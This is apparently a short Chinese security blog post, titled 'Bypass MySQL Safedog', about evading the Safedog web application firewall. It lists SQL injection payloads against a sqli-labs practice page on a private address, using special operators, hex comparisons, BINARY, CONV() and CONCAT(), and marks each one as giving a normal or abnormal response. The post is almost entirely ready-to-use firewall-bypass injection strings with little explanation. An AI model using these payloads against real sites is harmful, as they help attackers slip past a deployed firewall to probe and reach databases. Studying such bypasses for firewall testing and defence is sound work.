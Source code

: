 ```yaml
---
title: "Bypass MySQL Safedog"
date: 2019-10-10T21:58:09+08:00
lastmod: 2019-10-10T21:58:09+08:00
draft: true
tags: []
categories: ['bypass']
comment: true
---
```


日狗



# 判断注入

安全狗不让基本运算符后跟数字字符串

特殊运算符绕

```
http://172.16.1.157/sql/Less-1/?id=1'and -1=-1 -- + 正常
http://172.16.1.157/sql/Less-1/?id=1'and -1=-2 -- + 不正常
http://172.16.1.157/sql/Less-1/?id=1'and ~1=~1 -- +	正常
http://172.16.1.157/sql/Less-1/?id=1'and ~1=~2 -- +	不正常
```

16进制绕

```
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 <> 0x1-- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 <> 0x0-- +	不正常
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 <=> 0x0-- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 <=> 0x1-- +	不正常
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 xor 0x1-- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 xor 0x0-- +	不正常
```

BINARY绕

```
http://172.16.1.157/sql/Less-1/?id=1' and BINARY 1-- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and BINARY 0-- +	不正常
```

conv()函数绕

```
http://172.16.1.157/sql/Less-1/?id=1' and CONV(1,11,2)-- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and CONV(0,11,2)-- +	不正常
```

concat()函数绕

```
http://172.16.1.157/sql/Less-1/?id=1' and CONCAT(1)-- +		正常
http://172.16.1.157/sql/Less-1/?id=1' and CONCAT(0)-- +		不正常
```
